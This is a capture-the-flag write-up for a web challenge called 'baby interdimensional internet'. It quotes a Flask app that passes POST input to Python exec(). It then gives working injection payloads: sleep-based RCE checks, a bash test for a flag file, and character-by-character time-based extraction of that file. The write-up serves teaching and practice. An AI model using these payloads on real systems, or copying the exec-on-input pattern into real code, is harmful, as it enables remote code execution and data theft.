






# Web - baby interdimensional internet

## Description
> aw man, aw geez, my grandpa rick is passed out from all the drinking again, where is a calculator when you need one, aw geez

<br>
<br>

## Walkthrough

In this challenge we only had an online instance and there was no challenge code to download.

So I looked at the website in my browser and saw the following.


A website with no obvious interaction options.When reloading the page, this strange numerical value always changed under the rick & morty GIF.


So I enumerated the website as I usually do for websites at boxes and found something in the source code.



Under the path `/debug` was the source code of the application which I would like to insert here.

```python3
from flask import Flask, Response, request, render_template, request
from random import choice, randint
from string import lowercase
from functools import wraps

app = Flask(__name__)

def calc(recipe):
	global garage
	garage = {}
	try: exec(recipe, garage)
	except: pass

def GCR(func): # Great Calculator of the observable universe and it's infinite timelines
	@wraps(func)
	def federation(*args, **kwargs):
		ingredient = ''.join(choice(lowercase) for _ in range(10))
		recipe = '%s = %s' % (ingredient, ''.join(map(str, [randint(1, 69), choice(['+', '-', '*']), randint(1,69)])))

		if request.method == 'POST':
			ingredient = request.form.get('ingredient', '')
			recipe = '%s = %s' % (ingredient, request.form.get('measurements', ''))

		calc(recipe)

		if garage.get(ingredient, ''):
			return render_template('index.html', calculations=garage[ingredient])

		return func(*args, **kwargs)
	return federation

@app.route('/', methods=['GET', 'POST'])
@GCR
def index():
	return render_template('index.html')

@app.route('/debug')
def debug():
	return Response(open(__file__).read(), mimetype='text/plain')

if __name__ == '__main__':
	app.run('0.0.0.0', port=1337)
```

Very good, now we have an insight under the hood into how the application works and can start working on it.

This web application creates random calculations and passes them to the exec function.

These calculations are generated by the application itself if it is called via GET.

However, using a specially crafted POST request, we can pass OWN user input to the application, which is then used for calculations.

So I set about designing a valid POST request so that the application calculates with my user input.

The following curl-POST command worked which I ran through Burp and I saw that the `exec` function now calculates with my user input.

`curl -X POST http://83.136.254.199:40948/ --data "ingredient=custom_ingredient&measurements=custom_ingredient+%3D+6+%2A+5" --proxy "http://127.0.0.1:8080"`



<br>
<br>

## Exploitation

Well, first of all, my way to exploit the vulnerability was in retrospect, when I read other writeups, very inefficient and could have been solved more elegantly.

I had found an __RCE__ and worked with boolean and time based return values to find and extract the flag.

Anyway, you're always smarter afterwards and that was my way...

Ok, now that I had a working curl request and knew how to pass my input to the exec function, I tried the exploitation.

Passing user input to an exec function is dangerous as it can lead to __RCE Vulnerabilities__ and I set about finding a proof of concept.

My first proof of concept was to append a semicolon `;` followed by a custom `exec` function, import the `os` module and pass a sleep command to the `system` method:

`<POST_DATA>;exec("__import__('os').system('sleep 5')")`



I changed the value of the sleep method a few times and noticed a delay in the response of the application.

The __RCE__ was confirmed.

Now I passed a `bash` if/else statement to `system()` and searched for the flag.

The oneliner if/else statement delays the application by ten seconds if there is a file named `flag` in this folder, which was the case.

`<POST_DATA>;exec("__import__('os').system('if [ -f ./flag ]; then sleep  10; fi ')")`

<br>

### Time Based Exfiltration

I exfiltrated the flag and brute-forced it char by char with the following payload:

`;exec("__import__('os').system('if [ $(cat flag|head -n1|cut -c1) == H ]; then sleep 10; fi')")`

This payload reads the first line of the file and passes it to the `cut` command, which reads the first character and compares it with the letter `H`.

If the letter is also an `H`, there is a time delay which is noticeable.

So I used the flag now char by char and exfiltrated the flag Boolean-Time-Based via Burp and a printable ascii list.

__Payload fifth char:__



__Time delay:__



My notekeeping then looked like this and after a while I had the flag.

```
;exec("__import__('os').system('if [ $(cat flag|head -n1|cut -c1) == H ]; then sleep 10; fi')")		#Delay
;exec("__import__('os').system('if [ $(cat flag|head -n1|cut -c2) == T ]; then sleep 10; fi')")		#Delay
;exec("__import__('os').system('if [ $(cat flag|head -n1|cut -c3) == B ]; then sleep 10; fi')")		#Delay
;exec("__import__('os').system('if [ $(cat flag|head -n1|cut -c4) == { ]; then sleep 10; fi')")		#Delay
;exec("__import__('os').system('if [ $(cat flag|head -n1|cut -c5) == n ]; then sleep 10; fi')")		#Delay
;exec("__import__('os').system('if [ $(cat flag|head -n1|cut -c6) == 3 ]; then sleep 10; fi')")		#Delay

<AND SO ON...>
```

<br>
<br>

## Conclusion

Well, as already mentioned, this challenge could have been solved much more easily and I had to laugh at how I had once again made it more difficult for myself than it needed to be.

A simple `__import__("os").popen("whoami").read()` in the `measurements` parameter, for example, would have given me readable return values in the web application, as I found out when reading other writeups after my solve.



Perhaps the challenge will teach me to think a little further ahead in the future and not to exploit the first laborious payload straight away.

Or maybe a reminder that there are still __Time Based Exfiltration__ methods if there is really no other way to get optical return values.

Anyway...good and fun challenge nevertheless!
